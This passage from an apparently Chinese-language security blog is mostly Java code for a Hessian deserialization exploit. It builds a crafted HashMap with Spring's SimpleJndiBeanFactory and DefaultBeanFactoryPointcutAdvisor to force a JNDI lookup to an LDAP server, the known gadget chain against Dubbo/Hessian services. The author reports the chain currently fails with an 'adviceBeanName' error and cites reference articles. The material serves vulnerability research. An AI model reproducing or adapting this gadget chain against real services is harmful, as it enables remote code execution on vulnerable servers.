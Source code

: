 ```java

        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
        bf.setShareableResources(jndiUrl);
        setFieldValue(bf, "logger", new NoOpLog());
        setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());

        DefaultBeanFactoryPointcutAdvisor pcadv = new DefaultBeanFactoryPointcutAdvisor();
        pcadv.setBeanFactory(bf);
        pcadv.setAdviceBeanName(jndiUrl);

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, pcadv, pcadv, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, new DefaultBeanFactoryPointcutAdvisor(), new DefaultBeanFactoryPointcutAdvisor(), null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

不知道为啥打不通, 排查了半天还是这个呆逼报错`Exception in thread "main" java.lang.IllegalStateException: 'adviceBeanName' must be specified`, 先占个坑...∂

# 参考
 - [Hessian 反序列化及相关利用链](https://paper.seebug.org/1131/)
 - [Java安全之Dubbo反序列化漏洞分析](https://www.anquanke.com/post/id/263274)